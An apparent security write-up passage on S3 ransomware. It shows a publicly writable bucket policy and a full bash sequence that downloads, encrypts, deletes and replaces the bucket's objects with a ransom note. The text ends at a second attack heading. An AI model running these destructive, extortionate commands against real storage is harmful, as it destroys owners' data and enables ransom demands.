 ### Attack Vector 1: Public Write Access Exploitation

**Vulnerable S3 Bucket Configuration:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "s3:GetObject",
        "s3:PutObject"
      ],
      "Resource": "arn:aws:s3:::my-bucket/*"
    }
  ]
}
```

**Why This is Critical:**
- `Principal: "*"` = anyone on the internet
- `s3:PutObject` = attacker can upload files
- No authentication required

**Attack Execution:**

```bash
# Attacker discovers public bucket
aws s3 ls s3://my-bucket --no-sign-request

# Enumerate all objects
aws s3 ls s3://my-bucket --recursive --no-sign-request > objects.txt

# Download all objects (for encryption)
aws s3 sync s3://my-bucket ./downloaded --no-sign-request

# Encrypt locally using AES-256
for file in ./downloaded/*; do
  openssl enc -aes-256-cbc -salt -in "$file" -out "${file}.encrypted" -k "<random_key>"
done

# Delete original objects
aws s3 rm s3://my-bucket --recursive --no-sign-request

# Upload encrypted files + ransom note
aws s3 sync ./encrypted s3://my-bucket --no-sign-request
aws s3 cp ransom_note.txt s3://my-bucket/README_RANSOMWARE.txt --no-sign-request
```

**Impact:** All data encrypted, no recovery without paying ransom

### Attack Vector 2: Versioning Bypass
